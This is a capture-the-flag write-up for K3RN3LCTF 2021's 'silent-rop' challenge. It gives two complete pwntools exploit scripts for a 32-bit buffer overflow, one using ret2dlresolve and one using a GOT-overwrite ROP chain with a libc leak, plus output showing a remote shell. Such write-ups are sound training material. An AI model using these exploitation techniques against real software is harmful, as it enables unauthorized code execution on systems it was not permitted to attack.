 # K3RN3LCTF 2021 

## silent-rop

> SILENCE ... can you still pwn this ? (no output is intended)
> 
> `nc ctf.k3rn3l4rmy.com 2202`
>
> Author: Bex
> 
> [`silent-rop`](silent-rop) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _rop_ _ret2dlresolve_


## Summary

I'm not interested in writing a lengthly write up since this is just a ripoff of a challenge from other CTFs.  The short of it is, this is an easy 32-bit `read` _ret2dlresolve_ solve, however, for me, I could not get this working remotely, and I was not alone; many in their Discord reported the same and they had to restart the container multiple times.

However, that didn't stop me from just solving with a ROP chain--apparently that worked just find without a container restart.


## Exploit ret2dlresolve

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./silent-rop')
rop = ROP(binary)
dl = Ret2dlresolvePayload(binary, symbol='system', args=['/bin/sh'])

rop.read(0,dl.data_addr,len(dl.payload))
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('ctf.k3rn3l4rmy.com', 2202)
else:
    p = process(binary.path)

payload  = b''
payload += 0x1c * b'A'
payload += rop.chain()
payload += (0xd8 - len(payload)) * b'\0'
payload += dl.payload

p.send(payload)
p.interactive()
```

I suspect most just cut and pasted the first example from here: [https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html).

The code above is pretty much the same.

Local output:

```
# ./exploit.py
[*] '/pwd/datajerk/k3rn3lctf2021/silent-rop/silent-rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded 10 cached gadgets for './silent-rop'
[+] Starting local process '/pwd/datajerk/k3rn3lctf2021/silent-rop/silent-rop': pid 55753
[*] Switching to interactive mode
$ cat flag.txt
flag{flag}
```

## Exploit ROP

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./silent-rop')

while True:
    if args.REMOTE:
        p = remote('ctf.k3rn3l4rmy.com', 2202)
        libc = ELF('libc.so.6', checksec=False)
    else:
        p = process(binary.path)
        libc = ELF('/lib/i386-linux-gnu/libc.so.6', checksec=False)

    payload  = b''
    payload += 0x1c * b'A'
    payload += p32(binary.plt.read)
    payload += p32(binary.sym.vuln)
    payload += p32(0)
    payload += p32(binary.got.setvbuf)
    payload += p32(2)
    payload += (0xd8 - len(payload)) * b'\0'

    p.send(payload)
    p.send(p16((libc.sym.puts & 0xFFF) | 0x6000))

    payload  = b''
    payload += 0x1c * b'A'
    payload += p32(binary.plt.setvbuf)
    payload += p32(binary.sym.vuln)
    payload += p32(binary.got.setvbuf)
    payload += (0xd8 - len(payload)) * b'\0'

    p.send(payload)
    try:
        _ = p.recv(4)
    except:
        p.close()
        continue

    break

libc.address = u32(_) - libc.sym.puts
log.info('libc.address = {x}'.format(x = hex(libc.address)))

payload  = b''
payload += 0x1c * b'A'
payload += p32(libc.sym.system)
payload += p32(0)
payload += p32(libc.search(b'/bin/sh').__next__())
payload += (0xd8 - len(payload)) * b'\0'

p.send(payload)
p.interactive()
```

The objective here is to change `setvbuf` to `puts` in the GOT.  A single nibble will need to be brute forced.  Setting the nibble to `6` will work 100% of the time without ASLR (used for dev and test).  With ASLR enabled there's a 1/16 chance this will work on each attempt.

If this is successful, then `setvbuf` will be `puts` and we can leak libc and then get a shell.

Output (worked on 7th iteration):

```bash
# ./exploit2.py REMOTE=1
[*] '/pwd/datajerk/k3rn3lctf2021/silent-rop/silent-rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] Closed connection to ctf.k3rn3l4rmy.com port 2202
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2202: Done
[*] libc.address = 0xf7d35000
[*] Switching to interactive mode

$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{r3t_2_dl_r3s0lve_d03s_n0t_n3ed_a_l34k}
```
